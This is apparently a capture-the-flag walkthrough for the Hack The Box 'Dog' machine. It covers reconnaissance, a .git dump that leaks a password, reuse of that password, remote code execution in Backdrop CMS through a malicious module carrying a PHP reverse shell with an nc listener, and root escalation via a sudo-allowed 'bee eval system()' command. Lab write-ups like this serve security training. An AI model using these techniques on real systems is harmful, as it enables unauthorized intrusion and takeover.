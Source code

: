 
nmap -sV  10.10.11.58 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 04:56 CEST
Nmap scan report for 10.10.11.58
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds


feroxbuster -u http://10.10.11.58/ -w /usr/share/wordlists/seclists/PathBANGER.txt  -x php,sh 
gets us a shit ton of hits so here are some of the intersting ones
```
### 🧠 **Interesting Files (Potentially Sensitive or Useful Info)**

- `http://10.10.11.58/README.md`
    
- `http://10.10.11.58/settings.php` _(zero-length, but a common config file worth checking manually)_
    

---

### ⚙️ **Executable Scripts**

- `http://10.10.11.58/core/scripts/install.sh`
    
- `http://10.10.11.58/core/scripts/backdrop.sh`
    
- `http://10.10.11.58/core/scripts/generate-d7-content.sh`
    
- `http://10.10.11.58/core/scripts/dump-database-d7.sh`
    
- `http://10.10.11.58/core/scripts/password-hash.sh`
    
- `http://10.10.11.58/core/scripts/run-tests.sh`
    
- `http://10.10.11.58/core/scripts/test.script`
    

---

### 📂 **Config Files (JSON / YAML / etc.)**

Under `/files/config_*/active/`:

- All the `*.json` files here represent **Drupal/Backdrop config exports**, including:
    
    - `user.role.authenticated.json`
        
    - `system.core.json`
        
    - `user.role.administrator.json`
        
    - `filter.format.full_html.json`
        
    - `menu.menu.main-menu.json`
        
    - `layout.layout.home.json`
        
    - `user.mail.json`
        
    - `views.view.user_admin.json`
        
    - and many more...
        

These give a **full view of the site structure, roles, views, and content types**. Very useful.

---

### 🖼️ **User-uploaded Content (images, styles, etc.)**

- `/files/field/image/*.jpg`
    
    - `dog.jpeg`
        
    - `dog-animal_dotorlbdd7.jpg`
        
    - `dog-obesity.jpg`
        
    - `dog-food.jpg`
        
    - Suggests possible image upload functionality
        

---

### 🛠️ **Admin/Install/Update Pages**

- `http://10.10.11.58/core/install.php`
    
- `http://10.10.11.58/core/authorize.php` _(403, but still interesting)_
    
- `http://10.10.11.58/core/update.php` _(403)_
    
- `http://10.10.11.58/core/cron.php` _(403)_
    
- `http://10.10.11.58/index.php`
```

Going over all these there is not much interesting to be found.

I use `feroxbuster` to look for interesting endpoints:

```

```


Let's say we discover:
    /core
    /modules
    /files
    /settings.php
    /robots.txt
    /index.php

## Dump Git Repo

Dump the `.git` directory using `gitdumper.sh`:
```
gitdumper.sh http://dog.htb/.git/ dog-git
cd dog-git
```

## Extract Credentials

Search for database credentials:
```
grep -r "mysql://" .
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

So, creds are:

- **User**: `root`
- **Password**: `BackDropJ2024DS2024`

Which does not work :sad:

```
root <dog@dog.htb>
tiffany <tiffany@dog.htb>
```
Try logging in at:
http://dog.htb/?q=user/login
Using:
```
Username: tiffany
Password: BackDropJ2024DS2024
```
**Success** — logged in as Tiffany.

## Authenticated RCE via Module Upload

Backdrop CMS v1.27.1 is vulnerable to **RCE via malicious module upload**.
### Prepare payload:

Make a folder named `shell/` with two files:
shell.info
```
type = module
name = Shell
description = Reverse shell
core = 1.x
package = Custom
version = 1.0
```

#### `shell.php`:

Insert a PHP reverse shell payload (e.g., from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
Then archive the folder:
```
tar -czf shell.tar.gz shell/
```

## Upload Module & Trigger Shell

Go to:
http://dog.htb/?q=admin/modules/install
- Upload `shell.tar.gz`
- Enable the module if required
- Trigger shell at:
http://dog.htb/modules/shell/shell.php
Meanwhile, on your attacker machine:
```
nc -lvnp 1234
```

Reverse shell caught as **`**www-data**`
In your reverse shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ls /home
johncusack

su johncusack
Password: BackDropJ2024DS2024

cat ~/user.txt
6f57eee316d57147f467455026103ed7
```

Check `sudo` access:
You’ll see:
```
(ALL) NOPASSWD: /usr/local/bin/bee --root=/var/www/html *
```

This lets you run the `bee` CLI (Backdrop’s tool) with root privileges.
### Exploit with system():
```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"

cat /root/root.txt > /tmp/f
cat /tmp/f
b47fde5773706a20f456f96b3f51172d
```
